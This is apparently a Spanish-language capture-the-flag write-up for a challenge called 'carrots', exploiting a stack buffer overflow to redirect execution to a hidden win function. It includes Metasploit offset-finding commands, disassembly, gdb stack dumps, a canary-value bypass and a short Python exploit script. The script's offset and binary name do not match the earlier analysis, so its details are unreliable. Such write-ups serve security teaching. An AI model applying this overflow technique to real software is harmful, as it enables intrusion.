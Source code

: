 ## **Enunciado**

Points: 300   
Country: Mexico   
Attatchment: https://mega.nz/#!twM1nYCA!qXDWql7ER6gLYj6eaT7iG-12sFdH3ozePk0VDl_xLwk   
Description: We all know that rabbits' favorite food is carrots. Help the rabbits to eat their favorite food today and be careful with the birds...good luck!   

## **Solución**

Se trata del clásico buffer overflow que peta cuando le metes más caracteres de los debidos:

```
./carrots 
 Where is my carrot?
 > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Segmentation fault
```

Vamos a crear un patrón de caracteres para averiguar el offset con metasploit:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

Lo metemos en gdb y nos da una dirección que se corresponde con una parte del patrón anteior. Esta dirección se la pasamos a metaspoit otra vez y nos da el offset:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 150 -q 0x37654136
[*] Exact match at offset 140
```

Si nos fijamos en la función main vemos que hay una llamada a la función que recoge nuestros datos por consola, esta función es vulnerable a un buffer overflow. Si metemos más de 140 caracteres vamos a sobreescribir el stack frame de main.

```
08049790 <main>:
 8049790:	55                   	push   ebp
 8049791:	89 e5                	mov    ebp,esp
 8049793:	81 ec a8 00 00 00    	sub    esp,0xa8
 8049799:	c7 45 fc 44 52 49 42 	mov    DWORD PTR [ebp-0x4],0x42495244
 80497a0:	c7 45 f8 00 00 00 00 	mov    DWORD PTR [ebp-0x8],0x0
 80497a7:	e8 64 fa ff ff       	call   8049210 <_Z6bannerv>             <== Pinta el dibujito
 80497ac:	8d 05 4a a0 04 08    	lea    eax,ds:0x804a04a
 80497b2:	89 04 24             	mov    DWORD PTR [esp],eax
 80497b5:	e8 a6 f7 ff ff       	call   8048f60 <printf@plt>             <== Muestra la pregunta por pantalla
 80497ba:	8d 0d a0 c0 04 08    	lea    ecx,ds:0x804c0a0
 80497c0:	8d 95 78 ff ff ff    	lea    edx,[ebp-0x88]
 80497c6:	89 0c 24             	mov    DWORD PTR [esp],ecx
 80497c9:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80497cd:	89 85 74 ff ff ff    	mov    DWORD PTR [ebp-0x8c],eax
 80497d3:	e8 c8 f7 ff ff       	call   8048fa0                          <== Función vulnerable que recoge los datos introducidos
 80497d8:	81 7d f8 00 00 00 00 	cmp    DWORD PTR [ebp-0x8],0x0
 80497df:	89 85 70 ff ff ff    	mov    DWORD PTR [ebp-0x90],eax
 80497e5:	0f 85 14 00 00 00    	jne    80497ff <main+0x6f>
 80497eb:	31 c0                	xor    eax,eax
 80497ed:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 80497f4:	89 85 6c ff ff ff    	mov    DWORD PTR [ebp-0x94],eax
 80497fa:	e8 a1 f8 ff ff       	call   80490a0 <exit@plt>
 80497ff:	31 c0                	xor    eax,eax
 8049801:	8b 4d f8             	mov    ecx,DWORD PTR [ebp-0x8]          
 8049804:	89 0d d0 c1 04 08    	mov    DWORD PTR ds:0x804c1d0,ecx    
 804980a:	8b 4d fc             	mov    ecx,DWORD PTR [ebp-0x4]
 804980d:	89 0d d4 c1 04 08    	mov    DWORD PTR ds:0x804c1d4,ecx
 8049813:	8b 4d 04             	mov    ecx,DWORD PTR [ebp+0x4]
 8049816:	89 0d d8 c1 04 08    	mov    DWORD PTR ds:0x804c1d8,ecx
 804981c:	81 c4 a8 00 00 00    	add    esp,0xa8
 8049822:	5d                   	pop    ebp
 8049823:	c3                   	ret                                     <== Sobreescribir aquí el EIP antes de llamar a ret

```
Situación de la pila después de la llamada a la función y tras haber introducido 140 caracteres, los últimos 4 caracteres son diferentes para identificar donde está la posición de memoria de retorno que hemos machacado:

```
br *0x80497d8
 > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

gdb-peda$ x/64xw $esp
0xbffff290:	0x0804c0a0	0xbffff33c	0xb7dbfe00	0xb7dbfdfc
0xbffff2a0:	0xb7fac504	0xb7c13618	0xb7c3a870	0x00000018
0xbffff2b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff2c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff2d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff2e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff2f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff300:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff310:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff320:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff330:	0x41414141	0x41414141	0x42424242	0xb7c24200
```

Una vez que sabemos que si introducimos 140 caracteres va a sobreescribir el EIP del stack frame de main, si metemos 136 caracteres y una dirección de memoria donde dirigir el flujo del programa (posición ocupada por BBBB y cuyoo valor es 0xbffff33c). Lo suyo sería dirigir el programa hacia una dirección donde nos muestre el flag que buscamos, pero... ¿cual es esa dirección de memoria?
Si echamos un vistazo a las strings, vemos que hay unas cadenas que podrían darnos una pista de donde va a mostrarnos el flag:

```
rabin2 -z carrots | grep arrot
vaddr=0x08049fd5 paddr=0x00001fd5 ordinal=018 sz=38 len=37 section=.rodata type=ascii string=\n Yes! My Carrot is here! mmmm ... \n 
```

Buscando en el código encontramos la función desde la que se llama a esa string:

```
objdump -M intel -drw carrots | grep 49fd5 -6
08049570 <_Z6CARROTv>:
 8049570:	55                   	push   ebp
 8049571:	89 e5                	mov    ebp,esp
 8049573:	53                   	push   ebx
 8049574:	56                   	push   esi
 8049575:	81 ec 90 00 00 00    	sub    esp,0x90
 804957b:	8d 05 d5 9f 04 08    	lea    eax,ds:0x8049fd5          <== Dirección de la string que buscamos con el grep
 8049581:	89 04 24             	mov    DWORD PTR [esp],eax
 8049584:	e8 d7 f9 ff ff       	call   8048f60 <printf@plt>
 8049589:	81 3d d4 c1 04 08 44 52 49 42 	cmp    DWORD PTR ds:0x804c1d4,0x42495244
 8049593:	89 45 a8             	mov    DWORD PTR [ebp-0x58],eax
 8049596:	0f 84 22 00 00 00    	je     80495be <_Z6CARROTv+0x4e>
 804959c:	8d 05 fb 9f 04 08    	lea    eax,ds:0x8049ffb

```

Nuestra función objetivo es "_Z6CARROTv", sólo nos queda apuntar el EIP a 0x08049570. Si lo probamos dentro del gdb, hay que cambiar las BBBB  que está en la posición 0xbffff33c por el valor 0x08049570:

```
set {int}0xbffff33c=0x08049570
```
```
gdb-peda$ c
Continuing.

 Yes! My Carrot is here! mmmm ... 
  ~(‾▿‾)~   Oh NO! We hate birds :( 
```

Ooops! Something is wrong here. ¿Qué ha pasado? Parece que no era tan fácil como parecía. Si echamos un vistazo detenidamente a la función "_Z6CARROTv" podemos ver lo siguiente:


```
br *0x804981c

set {int}0xbffff334=0x42495244
set {int}0xbffff338=0x00000000
set {int}0xbffff33c=0x08049570
evitar canary
```

```python
#!/usr/bin/python
# Fichero pwn_please_no.py 
# Exploit ROP


from struct import pack

binary = "please-no"
junk = "A" * 132

rop = pack('<I', 0x42495244)   
rop += pack('<I', 0x00000000)    
rop += pack('<I', 0x08049570)   


payload = junk + rop 
print payload
```
